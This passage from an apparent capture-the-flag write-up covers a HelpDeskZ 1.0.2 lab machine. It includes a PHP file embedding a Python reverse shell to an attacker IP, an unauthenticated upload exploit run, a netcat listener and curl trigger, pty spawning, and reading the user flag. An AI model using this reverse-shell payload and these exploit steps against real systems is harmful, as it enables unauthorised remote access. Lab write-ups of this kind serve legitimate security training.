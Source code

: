            echo system("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.12.99\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'");

         ?>
         ```
      3. Enter CAPTCHA
      4. Click "Submit"
      5. Run the python exploit (__*40300.py*__):
         ```console
         python ./40300.py http://10.10.10.121/support/uploads/tickets/ shell.php
         # Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
         # found!
         # http://10.10.10.121/support/uploads/tickets/b2c187c5977426db2acf2b5195e31687.php
         ```
   4. Set-up the reverse shell:
      - Local terminal:
        ```console
        nc -lvp 4444    
        ```
      - Another local terminal: 
        ```console
        curl http://10.10.10.121/support/uploads/tickets/b2c187c5977426db2acf2b5195e31687.php
        ```
      - While inside the reverse shell:
        ```console
        python -c 'import pty; pty.spawn("/bin/bash")'

        id
        # uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)

        cd ~
        cat user.txt
        # bb8a7b36bdce0c61ccebaa173ef946af
        ```


## Privilege Escalation

Doing the basic enum for root, I find a vulnerable kernel version, naturally, knowing this machine is old I try to find a real exploit mayeb the intended way, but I believe at this point that kernel exploit is the intended way.
